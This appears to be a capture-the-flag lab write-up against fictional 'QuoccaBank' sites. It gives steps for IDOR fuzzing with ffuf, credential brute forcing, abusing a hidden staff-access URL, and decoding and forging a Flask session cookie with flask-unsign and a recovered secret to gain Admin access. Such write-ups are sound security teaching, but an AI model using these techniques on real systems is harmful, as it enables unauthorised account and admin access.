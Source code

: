 ## [Quocca Blog](https://blog.quoccabank.com/)


**Steps to flags**
IDOR:
1. Use `ffuf` to fuzz  https://blog.quoccabank.com/?p=FUZZ  

``` bash
  ffuf -u https://codingo.io/FUZZ -w ./wordlist.txt
```

3. Search bar on https://blog.quoccabank.com/?p=9 (for example)
4. Enter random character 'a' manually  (https://blog.quoccabank.com/?s=a)


###Authentication 
1. Brute forcing usernames and password (use ffuf or python script with SecLists)
2. Try admin, guest, password for username/password combinations


## [Quocca Files](https://files.quoccabank.com/#/)

**Steps to flags**
Authenticating correctly flags:
1. Registering as admin said username is taken 
2. Tried username = admin, pass = a (Got this clue from an earlier token)
3. Get two flags

Same flags via access control method:
1. Got new path `"/staff/wfh"` from JS source code (search on keyword path) 
2. Register with new user (u = rav, pass= rav)
3. Navigate to https://files.quoccabank.com/covid19/supersecret/lmao/grant_staff_access?username=rav which gives rav staff permissions and you can view the same flags as above method.

Flask key:
1. Decode the session token from https://files.quoccabank.com/covid19/supersecret/lmao/grant_staff_access?username=admin
```
flask-unsign --decode --cookie 'eyJyb2xlIjp7IiBiIjoiVTNSaFptWT0ifSwidXNlcm5hbWUiOiJyYXYifQ.YNhF1Q.bJXWI9je-z1Pz-k0CxN6NqGGfpA'
```
It gives `{'role': b'Staff', 'username': 'rav'}`

2. Change role: Admin and username: rav and generate a new flask session token with the secret from the flag (flask_cookie.py)
```python
import flask_unsign
import json

#Library - https://pypi.org/project/flask-unsign/

cookie_payload = '{"role": "Admin", "username": "rav"}'
secret= "$hallICompareTHEE2aSummersday" #This was in a file I found 
# need to convert the payload to a json object for the flask signing
payload_json = json.loads(cookie_payload)

print(flask_unsign.sign(value=payload_json, secret=secret))
```
3. Send this token when logged in to get the Admin access (+ flag)
